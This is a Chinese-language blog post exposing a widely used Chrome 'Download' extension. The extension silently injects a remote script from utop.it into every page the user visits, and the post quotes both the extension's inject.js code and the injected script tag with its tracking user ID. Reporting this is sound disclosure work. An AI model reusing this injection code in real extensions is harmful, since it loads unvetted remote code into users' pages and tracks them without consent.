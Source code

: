 一个单纯用来打开Chrome下载页面的扩展，为什么要在我访问的所有页面上inject东西？这尼玛一看就有问题。

再一看这个`fdi/inject.js`：

```javascript
function inj(){
    if (document){
        var _head = document.getElementsByTagName( "head" );

        if (_head[ 0 ]){
            var _domain = document.domain;
            if( _domain && _domain.toLowerCase().indexOf("utop.it") == -1){
                var script = document.createElement("script");
                script.type = "text/javascript";
                script.src = window.location.protocol + "//" + _appId
                    + ".utop.it/tb/host.jsp?pid=" + _pId
                    + "&br=gc&uid=" + getUserId() + "&pct=tb";
                script.id = "uti_script_chrome";
                _head[ 0 ].appendChild( script );
                setTimeout("getFrame()",30);
            }
        } else {
            setTimeout("inj()",50);
        }

    } else {
        setTimeout("inj()",50);
    }
}
```

在Chrome Developer下调试，这个扩展给我的页面inject的是这么一段JavaScript：

```xml
<script type=​"text/​javascript" src=​"http:​/​/​downloadext.utop.it/​
tb/​host.jsp?pid=31425&br=gc&uid=2013032920055234663&pct=tb"
id=​"uti_script_chrome">​</script>​
```

虽然不知道这个<http://downloadext.utop.it>是干嘛的，这段JavaScript又怎么会干扰到我正常的Twitter页面浏览，不过很显然这么做是不对滴，因为这个扩展的介绍里压根就没有提到这个utop.it网站，也不符合它本身声称提供的功能（只是“单纯地打开Chrome的下载页面”而已）。

然后，我找到了Google Chrome Forum上的这篇帖子：_[utop.it Chrome Browser Virus?](https://productforums.google.com/forum/?fromgroups=#!topic/chrome/2wBHACweWuM)_。

再然后，我就删除了这个Download扩展。再然后，我在Web Store里点了举报。再然后，就没有然后了。这个拥有20万用户的扩展会不会被Google下架，我不知道。

最后，几点总结：

1) 幸亏我没事还会刷刷Twitter或者偶尔去翻翻Ruby-Doc上的文档，不然还真没法发现这个扩展在我毫无知觉的情况下在给我访问的每个页面inject JS代码。（虽然主要是因为这段注入代码最近的某个版本出现了导致页面无法正常浏览的bug，以致于暴露了它的存在）

2) 以前我只知道国产Chrome扩展以流氓著称，其实，流氓并不是国产软件的专利。

3) 用户基数大、原本口碑好的软件不代表就一定不会做见不得人的事，就像这个拥有20多万用户的Download扩展。（我就不拿某些国产软件来类比说明了）

<img src="http://i.imgur.com/Cskqd92.png" width="100%" />
